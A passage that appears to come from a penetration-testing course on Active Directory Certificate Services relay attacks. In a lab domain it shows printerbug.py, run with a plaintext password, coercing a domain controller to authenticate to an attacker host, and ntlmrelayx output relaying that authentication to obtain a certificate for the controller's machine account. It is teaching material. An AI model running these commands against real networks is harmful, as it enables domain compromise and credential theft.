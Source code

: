{% hint style="info" %}
**Note:** The value passed to `--template` may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like [certipy](https://github.com/ly4k/Certipy).
{% endhint %}

Attackers can either wait for victims to attempt authentication against their machine randomly, or they can actively coerce them into doing so. One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). This attack requires the targeted machine account to have the `Printer Spooler` service running. The command below forces `10.129.234.109 (DC01)` to attempt authentication against `10.10.16.12 (attacker host)`:

```shell-session
$ python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

Referring back to `ntlmrelayx`, we can see from the output that the authentication request was successfully relayed to the web enrollment application, and a certificate was issued for `DC01$`:

```shell-session
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[*] HTTP server returned error code 404, treating as a successful login
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[-] Authenticating against http://10.129.234.110 as / FAILED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```
